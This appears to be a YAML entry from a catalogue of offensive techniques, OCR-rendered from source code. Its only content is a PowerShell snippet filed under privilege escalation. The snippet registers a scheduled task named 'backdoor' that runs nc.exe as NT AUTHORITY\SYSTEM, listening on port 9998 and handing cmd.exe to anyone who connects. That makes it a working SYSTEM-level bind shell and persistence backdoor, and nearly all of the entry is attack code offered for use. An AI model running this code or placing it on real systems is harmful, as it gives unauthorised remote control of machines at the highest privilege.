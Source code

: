 ```yaml
---
functions:
  privilege-escalation:
    - description: Use Windows Scheduler to elevate permissions to SYSTEM via a backdoor
      code: |
        Unregister-ScheduledTask -TaskName "backdoor"
        $filepath = “C:\users\admin\documents\nc.exe”
        $port = "9998"
        $taskname = “backdoor”
        $time = “11:57”
        $action = New-ScheduledTaskAction -Execute $filepath -argument “-l -p $port -e cmd.exe”
        $trigger = New-ScheduledTaskTrigger -At $time -Once
        $principal = New-ScheduledTaskPrincipal -UserId 'NT AUTHORITY\SYSTEM' -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet
        $task = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings
        Register-ScheduledTask $taskname -InputObject $task

resources : |

---
```


